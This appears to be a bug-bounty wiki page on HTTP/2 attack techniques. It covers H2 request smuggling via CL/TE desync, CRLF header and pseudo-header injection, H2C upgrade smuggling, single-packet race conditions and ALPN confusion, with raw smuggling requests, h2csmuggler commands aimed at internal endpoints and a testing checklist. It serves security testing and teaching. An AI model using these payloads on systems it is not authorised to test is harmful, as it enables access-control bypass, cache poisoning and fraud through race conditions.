


> Source: https://bugbounty.info/Attack-Surface/Web/Infrastructure/HTTP2-Attacks

# HTTP/2 Attacks

HTTP/2 introduced binary framing, multiplexing, and header compression  -  but the security implications are still catching up with adoption. Most web infrastructure downgrades H2 to HTTP/1.1 at the reverse proxy, and that translation layer is where the bugs live. H2 request smuggling, H2C smuggling, and single-packet race conditions are all distinct attack classes that most testers miss because their tools default to HTTP/1.1. James Kettle's research at PortSwigger demonstrated that H2 smuggling is often more reliable than classic HTTP/1.1 smuggling because the binary framing removes ambiguity that defenses rely on.

## H2 Request Smuggling

When a front-end speaks HTTP/2 and downgrades to HTTP/1.1 for the backend, the translation can introduce smuggling opportunities. In HTTP/2, the `Content-Length` and `Transfer-Encoding` headers are technically not needed (the binary framing handles message boundaries), but many implementations still forward them during downgrade.



### H2 CL Desync

HTTP/2 uses the binary frame length for message boundaries, not Content-Length. But during downgrade, the front-end may forward a Content-Length header that disagrees with the actual body:

```http
POST / HTTP/2
Host: target.com
Content-Length: 0
 
GET /admin HTTP/1.1
Host: target.com
```

The front-end sees an H2 request with a complete body (framing says the message includes everything). During downgrade, it forwards `Content-Length: 0` to the backend. The backend reads 0 bytes of body, treats the rest as the start of a new request  -  the smuggled `GET /admin`.

### H2 TE Desync

```http
POST / HTTP/2
Host: target.com
Transfer-Encoding: chunked
 
0
 
GET /admin HTTP/1.1
Host: target.com
```

HTTP/2 technically forbids `Transfer-Encoding` (except for `trailers`), but many front-ends pass it through during downgrade without stripping it.

### Testing with Burp

1. In Burp Repeater, enable HTTP/2 mode (Inspector panel > Protocol > HTTP/2)
2. Send a normal request and confirm the target speaks H2
3. Add conflicting `Content-Length` or `Transfer-Encoding` headers
4. Watch for response anomalies: getting someone else's response, unexpected 404s, or duplicate headers from another user's request
5. Use Burp's HTTP Request Smuggler extension for automated detection

## H2 Header Injection

HTTP/2's binary format means header values can contain bytes that would be invalid in HTTP/1.1. If an H2 header value contains CRLF bytes, they become actual line breaks during downgrade  -  injecting entirely new headers.

For example, the attacker sends an H2 request with a `Foo` header whose value contains embedded CRLF followed by `Transfer-Encoding: chunked`. The front-end forwards it. After downgrade, the backend sees:

```http
GET / HTTP/1.1
Host: target.com
Foo: bar
Transfer-Encoding: chunked
```

The backend now has a `Transfer-Encoding` header that was never sent by the client  -  it was injected via the CRLF in the H2 header value. This can enable request smuggling, response splitting, or cache poisoning.

### Pseudo-Header Manipulation

HTTP/2 pseudo-headers map to the HTTP/1.1 request line during downgrade. If the proxy doesn't sanitize pseudo-header values, you can inject CRLF sequences that split into multiple requests on the backend.

**Injection via method:** set the H2 method pseudo-header to a value containing CRLF and a second request. After downgrade, the backend sees:

```http
GET / HTTP/1.1
Host: attacker.com
 
GET /target-page HTTP/1.1
Host: target.com
```

**Injection via path:** same concept, but the CRLF payload is in the path pseudo-header. The backend receives:

```http
GET / HTTP/1.1
Host: target.com
 
GET /admin HTTP/1.1
Host: target.com
```

## H2C Smuggling

H2C (HTTP/2 Cleartext) is HTTP/2 without TLS, initiated via an `Upgrade` header on an HTTP/1.1 connection. Reverse proxies often don't understand H2C upgrades and pass them through to the backend:

```http
GET / HTTP/1.1
Host: target.com
Upgrade: h2c
HTTP2-Settings: AAMAAABkAAQCAAAAAAIAAAAA
Connection: Upgrade, HTTP2-Settings
```

If the reverse proxy forwards this to an internal service that supports H2C:

1. The proxy establishes a tunnel (like a WebSocket upgrade)
2. All subsequent traffic goes directly to the backend
3. The proxy's access controls, WAF rules, and auth checks are bypassed



### Testing with h2csmuggler

```bash
# Test if H2C upgrade is possible through the proxy
h2csmuggler detect https://target.com
 
# Smuggle a request to an internal endpoint
h2csmuggler request https://target.com /internal/admin
 
# Test multiple paths
h2csmuggler request https://target.com /api/internal/users
h2csmuggler request https://target.com /server-status
h2csmuggler request https://target.com /actuator/env
```

## Single-Packet Race Conditions

HTTP/2 multiplexing lets you send multiple requests in a single TCP packet. This eliminates network jitter and creates extremely precise race conditions:

```text
Traditional race condition:
  Request 1 ----[network jitter]----> Server
  Request 2 --------[jitter]-------> Server
  Timing varies by milliseconds
 
HTTP/2 single-packet attack:
  [Request 1 + Request 2 + Request 3] ----> Server
  All arrive in the exact same TCP packet
  Server processes them near-simultaneously
```

### Testing with Burp

1. Open multiple tabs in Repeater, each with a request to send
2. Select all tabs, right-click > "Send group (single packet attack)"
3. Burp sends all requests multiplexed in one TCP segment
4. Useful for: coupon reuse, double-spending, limit bypass, TOCTOU bugs

This technique applies to any race condition test, but HTTP/2 makes it reliable instead of probabilistic.

## ALPN and Protocol Confusion

Application-Layer Protocol Negotiation (ALPN) during TLS handshake determines whether the connection speaks HTTP/1.1 or HTTP/2. Mismatches between what the client negotiates and what the server expects can cause:

- Protocol confusion leading to request interpretation errors
- Downgrade attacks forcing HTTP/1.1 when H2 would have been safer
- Backend services expecting one protocol but receiving another after proxy translation

Test by explicitly setting ALPN in your client:

```bash
# Force HTTP/2 via curl
curl --http2 -v https://target.com
 
# Force HTTP/1.1 when server supports H2
curl --http1.1 -v https://target.com
 
# Check what ALPN the server negotiates
openssl s_client -connect target.com:443 -alpn h2,http/1.1
```

## Checklist

- Confirm the target supports HTTP/2 (check ALPN, `:status` pseudo-header in response)
- Test H2 request smuggling: send H2 request with conflicting CL or TE headers
- Test H2 header injection: embed `\r\n` in H2 header values
- Test pseudo-header manipulation (`:method`, `:path` with injected content)
- Test H2C smuggling: send `Upgrade: h2c` and attempt to reach internal endpoints
- Run h2csmuggler against the target to detect H2C upgrade support
- Test single-packet race conditions for any TOCTOU or limit-bypass scenarios
- Check for protocol downgrade: does the infrastructure translate H2 to H1.1?
- If downgrade exists: test all classic smuggling vectors through the H2 front-end
- Test with Burp's HTTP Request Smuggler extension in H2 mode

## Public Reports

- HTTP/2 request smuggling via CRLF injection at multiple targets - [PortSwigger Research](https://portswigger.net/research/http2)
- H2C smuggling bypassing reverse proxy authentication - [HackerOne #1524555](https://hackerone.com/reports/1524555)
- HTTP/2 CL desync on cloud provider infrastructure - [HackerOne #1501679](https://hackerone.com/reports/1501679)
- Single-packet HTTP/2 race condition on payment processing - [HackerOne #1628023](https://hackerone.com/reports/1628023)
- H2 downgrade smuggling on CDN-fronted applications - [HackerOne #1556963](https://hackerone.com/reports/1556963)

## See Also

- [HTTP Request Smuggling](../../../Attack-Surface/Web/Infrastructure/Request-Smuggling)
- [Cache Poisoning](../../../Attack-Surface/Web/Infrastructure/Cache-Poisoning)
- [Race Conditions](../../../Attack-Surface/Web/Business-Logic/Race-Conditions)
